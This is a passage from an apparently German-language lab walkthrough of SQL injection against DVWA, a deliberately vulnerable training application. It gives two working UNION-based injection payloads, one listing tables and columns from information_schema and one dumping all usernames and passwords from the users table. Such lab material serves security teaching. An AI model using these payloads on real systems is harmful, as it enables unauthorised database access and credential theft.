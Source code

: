 ```sql
%' or '0'='0' union select TABLE_NAME, COLUMN_NAME from information_schema.COLUMNS #
```

Dadurch bekommen wir folgenden Output:

![Alle Tabellen information](./imgs/sql-information-columns.png)

Darunter gibt es auch die *password*-Spalte unter der *users*-Tabelle:

![Password informationen](./imgs/sql-information-passwort.png)

Jetzt können wir mit dem folgenden Befehl alle Passwörter von allen User holen:

```sql
%' or '0'='0' union select user, password from dvwa.users #
```
